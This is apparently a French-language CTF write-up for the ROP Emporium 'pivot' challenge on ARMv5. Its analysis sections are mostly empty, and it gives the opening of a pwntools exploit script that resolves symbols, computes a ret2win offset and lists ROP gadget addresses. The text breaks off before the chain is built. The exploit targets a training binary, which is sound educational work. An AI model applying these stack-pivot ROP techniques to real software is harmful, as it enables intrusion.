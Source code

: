 Il nous donne aussi une adresse memoire où on va pourvoir installer une chaine de ROP.

Ensuite deux messages sont demandés.

TBC ...
## Analyse

### Le programme principal



### La librairie libpivot_armv5.so

## Exploitation

### Le script python

Script de la version armv5 soft.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time

# ropemporium ARMv5 soft pivot
# Solution leak puts et rappel pwnme

# Set up pwntools for the correct architecture
# 164 : read
# 148 : ret
gs='''
b *pwnme
b *pwnme+148
c
'''

#context.log_level='debug'
context.terminal=["/usr/bin/xterm", "-fa", "Monospace", "-fs","12", "-e"]

elf = context.binary = ELF('pivot_armv5')

# References ELF du programme
main=elf.symbols['main']
useless_func=elf.symbols['uselessFunction']
got_foothold=elf.got['foothold_function']
plt_foothold=elf.plt['foothold_function']
puts=elf.symbols['puts']
pwnme=elf.symbols['pwnme']
data = elf.get_section_by_name('.data').header['sh_addr']

# References ELF de la librairie
libelf = ELF('libpivot_armv5.so')

lib_foothold = libelf.symbols['foothold_function']
lib_ret2win = libelf.symbols['ret2win']
off_ret2win=lib_ret2win-lib_foothold

# ----- Gadgets -----
# pop {r4, pc}
g_pop_r4 = 0x00010760

#  mov r5, r4 ; mov r4, sp ; mov sp, r5 ; pop {r4, fp, pc} |
g_mov_r45_mov_sp_r5 = 0x000108f0
```